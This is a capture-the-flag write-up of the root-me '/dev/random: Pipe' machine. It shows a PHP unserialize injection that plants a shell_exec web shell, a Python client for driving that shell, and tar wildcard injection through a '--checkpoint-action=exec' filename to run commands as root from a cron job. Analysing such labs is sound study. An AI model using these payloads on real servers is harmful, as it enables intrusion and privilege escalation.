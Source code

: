 +++
title = "/dev/random: Pipe"
date = 2016-10-19
tags = ["technology", "ctf"]
[image]
link = "/images/posts/dev-random-pipe/presentation.jpg"
copyright = "https://unsplash.com/"
+++

Writeup by [npny](https://github.com/npny) and [nobe4](https://github.com/nobe4).

Firstly, we run `nmap` against the website, to discover that (among others), the ports 80 and 22 are open.

`SSH` doesn't yield any results, and we try, without luck, a possible exploit against the used version.

`HTTP` is a lot more interesting:

An HTTP password is asked when trying to access the main page. After a few random try on the different [`HTTP` verbs](https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods) we try to access the default `index.php` file, which seems to have the same security. But, making a `POST` request on the file returned a valid `HTML` page. Nice!

We can see in this web page a some useful information:

- there is a javascript file in the subdirectory `scriptz`
- there is an image in the subdirectory `images`

Both directories are not protected and can be accessed and listed.

Moreover, it seems that the file has a link that make a `POST` request and display some information on painters. One crucial note is that the `POST` request is made using a serialize function that (after study) serialize a javascript object into a format that `PHP` can unserialize. A copy of the script can be found [here](http://locutus.io/php/var/serialize/).

The information sent to the server is an object `Info`.

The `images` contains only the image of [La trahison des images](https://en.wikipedia.org/wiki/The_Treachery_of_Images), a famous painting by [René Magritte](https://en.wikipedia.org/wiki/Ren%C3%A9_Magritte). Nothing more here.

The `scriptz` folder contains the `php.js` script as well as a `log.php.BAK` file.

```php
<?php
class Log
{
    public $filename = '';
    public $data = '';

    public function __construct()
    {
        $this->filename = '';
        $this->data = '';
    }

    public function PrintLog()
    {
        $pre = "[LOG]";
        $now = date('Y-m-d H:i:s');

        $str = '$pre - $now - $this->data';
        eval("\$str = \"$str\";");
    }

    public function __destruct() {
      file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}
?>
```


It seems that this file define a simple logging class in PHP. We are not sure what to do with yet...

But, we can combine this class and use it instead of the `Info` one in the `POST` request. Using the following script:

```python
import requests

#  original info object
#  payload = 'O:4:"Info":4:{' \
        #  + 's:2:"id";'\
        #  + 'i:1;'\
        #  + 's:9:"firstname";'\
        #  + 's:4:"Rene";'\
        #  + 's:7:"surname";'\
        #  + 's:8:"Margitte";'\
        #  + 's:7:"artwork";'\
        #  + 's:23:"The Treachery of Images";'\
        #  + '}'

# new Log payload
payload = 'O:3:"Log":2:{' \
        + 's:8:"filename";'\
        + 's:27:"/var/www/html/scriptz/b.php";'\
        + 's:4:"data";'\
        + 's:39:"<?php echo shell_exec($_GET["cmd"]); ?>";'\
        + '}'

data = { 'param': payload }

r = requests.post("http://ctf01.root-me.org/index.php", data=data)
print r.content
```


What will happen here is the following:

- The `Log` string will be `unserialize`d by the PHP server script.
- During this step, the `filename` and `data` fields will be saved to a set of defined values.
- When the object is destroyed, the content of `data` will be written in the file `filename`.

We had to figure out the directory to use. After some research, we figured out the [default `Apache` folder](http://askubuntu.com/a/684030/399788) is used.

The payload is a simple web shell and will be placed in the folder `scriptz`.

Now, we must find something to do with this shell, first of, the following script enhance the usage of the web shell:


```python
import requests

base = 'http://ctf01.root-me.org/scriptz/b.php'

while True:
    r = requests.get(base, params = {'cmd': cmd})
    print r.content
    cmd = raw_input('> ')
```

This very simple script will get the web page, passing the command as a `GET` argument and display the result.

We immediately check for the `/passwd` file, which is, unfortunately, accessible only by the root user.

After some time looking around, we can see that the files in `/home/rene/backups` are constantly updated. It seems that a backup file is created every minute, and every 5 minutes the 5 backups are compressed together.

Checking the `/etc/crontab` file confirm this, two scripts are running, both as root, this could be the way to leverage the `passwd` file.

```bash

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /root/create_backup.sh
*/5 * * * * root /usr/bin/compress.sh

```

A detail that is interesting, is that both scripts are run as root, but one of them is readable:

```bash

#!/bin/sh

rm -f /home/rene/backup/backup.tar.gz
cd /home/rene/backup
tar cfz /home/rene/backup/backup.tar.gz *
chown rene:rene /home/rene/backup/backup.tar.gz
rm -f /home/rene/backup/*.BAK

```

The interesting part of the script is the line:

```bash
tar cfz /home/rene/backup/backup.tar.gz *
```

Indeed, there is a _vulnerability_ concerning this `*`. If a file or a directory is name like a flag, the command that use the `*` will treat the filename as a flag.

As an example:

```bash
$ touch a b c -la
$ ls
a b c -la
$ ls *
-rw-r--r--  1 user  group  0 Nov 17 18:23 a
-rw-r--r--  1 user  group  0 Nov 17 18:23 b
-rw-r--r--  1 user  group  0 Nov 17 18:23 c
```

This issue is discussed in [this paper](https://www.exploit-db.com/papers/33930/).

Now the command that need to be exploited is `tar`, its man page (and the previous paper) gives us the next step:

```bash
--checkpoint-action=exec=<command>
```

We now need to find the command we want to execute.

To make this step easier, we decided to use a script file on the server to that will be run by root, we thus need to create a file named:

```bash
--checkpoint-action=exec=sh shell.sh
```

Of course, the space in the filename has to be escaped, otherwise the execution will only run `sh`:

```bash
touch home/rene/backup/--checkpoint-action=exec=sh\ script.sh
```

The script.sh will contain the following code, which copy the content file into an accessible file, and will change the permission on it, so that anyone can read it:

```bash
cat /passwd > /var/www/html/scriptz/passwd && chmod a+r /var/www/html/scriptz/passwd
```

Then we just need to check the file from the browser and we get the flag.
